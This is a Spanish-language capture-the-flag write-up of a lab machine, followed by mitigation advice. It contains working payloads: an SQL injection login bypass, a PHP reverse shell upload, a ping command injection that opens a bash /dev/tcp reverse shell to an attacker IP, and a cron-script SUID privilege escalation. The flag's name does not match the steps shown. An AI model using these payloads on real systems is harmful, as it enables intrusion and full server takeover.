## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Técnicas usadas

- Escaneo de puertos y enumeración de servicios con `nmap`
- Bypass de autenticación mediante inyección SQL (SQLi)
- Subida de archivos maliciosos (webshell PHP - Pentestmonkey reverse shell)
- Command Injection en funcionalidad de ping
- Obtención de reverse shell y estabilización de TTY
- Enumeración de tareas programadas (`/etc/crontab`)
- Descubrimiento de credenciales en texto plano en directorio de backups
- Movimiento lateral mediante credenciales reutilizadas (SSH/su)
- Escalada de privilegios explotando un script ejecutado por `cron` como root con permisos de escritura para un usuario de bajo privilegio
- Persistencia de privilegios mediante bit SUID en `/bin/bash`

## Fase 1: Reconocimiento y Enumeración

### Escaneo de puertos


```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -sC -sV -oN ports 172.17.0.2
```

**Resultado relevante:**



```bash
nmap -p 22,80 -sC -sV -oN allports 172.17.0.2
```



Se accede al servicio web principal:

```
http://172.17.0.2/
```

Revisando el código fuente no se encuentra información relevante. Se localiza un enlace "Access Portal" que redirige al panel de login.



## Fase 2: Bypass de autenticación (SQL Injection)

```
http://172.17.0.2/login.php
```

El código fuente de la página tampoco revela información adicional. Se prueban credenciales genéricas sin éxito, por lo que se evalúa la posibilidad de una inyección SQL en el formulario de login:

```
Username: admin' OR '1
Password: admin
```

El payload permite eludir la autenticación y acceder al panel de administración.





## Fase 3: Subida de webshell (RCE)

Dentro del panel de administración se identifica una funcionalidad de subida de archivos al servidor. Se emplea la reverse shell en PHP de Pentestmonkey:

```bash
nano shell.php
```

php

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.241.128';  // IP del atacante
$port = 1234;             // Puerto de escucha
$chunk_size = 1400;
```

Se pone en escucha el puerto correspondiente y se accede al archivo subido desde el navegador:

```bash
nc -lvnp 1234
```





## Fase 4: Command Injection y estabilización de shell

En otro apartado del panel se identifica una funcionalidad de ping vulnerable a Command Injection:

```
172.17.0.1; ls
```



> [!warning] El panel de administración presenta dos vectores críticos de ejecución remota de código: subida de archivos sin validación (permitiendo webshells) y Command Injection en la funcionalidad de ping. Cualquiera de los dos habría sido suficiente para comprometer el servidor por completo.

Se aprovecha la inyección para obtener una reverse shell adicional:

```
172.17.0.1; bash -c 'exec bash -i &>/dev/tcp/192.168.241.128/1234 <&1'
```

```
nc -lvnp 1234
```



Se estabiliza la TTY para trabajar cómodamente:

```bash
script /dev/null -c bash
# ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```
bash-5.1$ whoami
```



## Fase 5: Enumeración post-explotación

Se identifican los usuarios del sistema con shell válida:

```
bash-5.1$ grep bash /etc/passwd
```



El acceso al home del usuario `dbbackup` está restringido y `sudo` no está disponible:

```
bash-5.1$ cd dbbackup/
```



```
bash-5.1$ sudo -l
```



Se buscan binarios con permisos SUID sin resultados aprovechables, y se revisan las tareas programadas del sistema:

```
bash-5.1$ cat /etc/crontab
```



```
bash-5.1$ cat /opt/backup/sync.sh

#!/bin/bash
tar -czf /tmp/backup.tar.gz /var/www/html
```

```
bash-5.1$ ls -la /opt/backup/sync.sh
```



El script se ejecuta como `root` cada minuto vía cron, pero pertenece al grupo `backupgroup`, al cual `www-data` no pertenece, por lo que no puede modificarlo directamente.

## Fase 6: Descubrimiento de credenciales

Buscando en directorios de backups del sistema se localiza un archivo de credenciales en texto plano:

```
bash-5.1$ cd /var
bash-5.1$ cd backups/
bash-5.1$ ls -la
```



```
bash-5.1$ cat .credentials
```



## Fase 7: Movimiento lateral y escalada de privilegios

Con las credenciales obtenidas se accede como el usuario `dbbackup`, quien sí pertenece a `backupgroup` y por tanto puede modificar `sync.sh`:

```
ssh dbbackup@172.17.0.2
```

```
-bash-5.1$ whoami
dbbackup
```

Se inyecta un comando en el script ejecutado por el cron de `root` para asignar el bit SUID a `bash`:

```
-bash-5.1$ echo 'chmod u+s /bin/bash' >> /opt/backup/sync.sh
```

Tras esperar a la siguiente ejecución del cron (máximo un minuto):

```
-bash-5.1$ ls -l /bin/bash
```



```
-bash-5.1$ bash -p
```

```
bash-5.1# whoami
```



## Fase 8: Captura de la flag

```
bash-5.1# cd /root
bash-5.1# ls
bash-5.1# cat flag.txt 
```



## Resumen de ataque

1. Se identificaron dos servicios expuestos (SSH y HTTP) mediante escaneo con `nmap`.
2. El panel de login resultó vulnerable a inyección SQL, permitiendo eludir la autenticación (`admin' OR '1`) y acceder al panel de administración.
3. Dentro del panel se explotó una funcionalidad de subida de archivos sin restricciones, cargando una webshell PHP y obteniendo ejecución remota de código como `www-data`.
4. Adicionalmente se identificó una segunda vía de RCE mediante Command Injection en la función de ping del panel, utilizada para obtener una shell reversa estable.
5. La enumeración post-explotación reveló un script (`/opt/backup/sync.sh`) ejecutado por `root` vía `cron` cada minuto, así como un archivo de credenciales en texto plano (`/var/backups/.credentials`) con acceso al usuario `dbbackup`.
6. Al autenticar como `dbbackup`, se comprobó que este pertenecía al grupo propietario del script cron, permitiendo modificarlo para asignar el bit SUID a `/bin/bash`.
7. Tras la ejecución automática del cron como `root`, se obtuvo una shell con privilegios de superusuario (`bash -p`) y se extrajo la flag final desde `/root/flag.txt`.

## Medidas de mitigación

- Utilizar consultas parametrizadas (prepared statements) en todos los formularios de autenticación para prevenir inyección SQL.
- Validar y restringir estrictamente los tipos de archivo permitidos en funcionalidades de subida (extensión, tipo MIME, contenido), y almacenar los archivos subidos fuera del directorio web ejecutable.
- Sanitizar y escapar correctamente cualquier entrada de usuario utilizada en llamadas a comandos del sistema (evitar `system()`, `exec()` o similares con datos sin validar); usar APIs nativas en lugar de invocar binarios del sistema.
- No almacenar credenciales en texto plano en el sistema de archivos; utilizar gestores de secretos o variables de entorno protegidas.
- Revisar los permisos de scripts ejecutados por tareas `cron` con privilegios elevados, asegurando que ningún grupo o usuario de bajo privilegio tenga permisos de escritura sobre ellos.
- Aplicar el principio de menor privilegio en la asignación de grupos del sistema, evitando que cuentas de servicio (`dbbackup`) tengan permisos innecesarios sobre recursos críticos de `root`.
- Monitorizar cambios en el bit SUID de binarios sensibles como `/bin/bash` mediante herramientas de integridad de archivos (AIDE, Tripwire, etc.).

## Flags

```
FLAG{MySQL_UDF_Exploitation_Master_2024}
```